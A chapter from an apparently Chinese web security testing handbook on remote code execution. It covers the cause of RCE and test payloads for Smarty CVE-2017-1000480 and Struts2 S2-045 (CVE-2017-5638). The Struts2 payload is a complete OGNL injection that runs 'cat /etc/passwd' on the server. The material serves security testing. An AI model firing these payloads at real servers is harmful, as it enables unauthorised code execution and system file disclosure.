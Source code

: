 # 远程代码执行 #
[远程代码执行](http://payloads.online/archivers/2018-03-22/1"远程代码执行")
《Web安全测试学习手册》- 远程代码执行
## 0x00 远程代码执行 - 介绍 ##
### 1）什么是远程代码执行 ###
远程命令执行 
英文名称：RCE (remote code execution) ，简称RCE漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
### 2）远程代码执行的特点 ###
远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。
## 0x01 远程代码执行 - 风险等级 ##
高
## 0x02 远程代码执行 - 原理 ##
由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。
## 0x03 远程代码执行 - 常见场景 ##
- 使用了危险函数的Web应用
- 低版本的Java语言Struts框架
## 0x04 测试方案 ##
### PHP中常见场景 - 模板引擎代码执行 ###
Smarty简介
```txt
Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。

CVE-ID : CVE-2017-1000480
```
产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行
测试Payload：
```php
*/phpinfo();/*
```
![0x00.png](https://whitecell.io/upload/attach/201809/_UK9QDRBCHVS58M5.png "0x00.png")
### Java Struts2 （S2-045） ###
Struts 简介
```txt
Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。

CVE-ID : CVE-2017-5638
```
产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行
测试Payload：
```java
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
![0x01.png](https://whitecell.io/upload/attach/201809/_5EF8XA9T8NSHMDD.png "0x01.png")
## 0x05 修复方案 ##
升级插件、框架新版本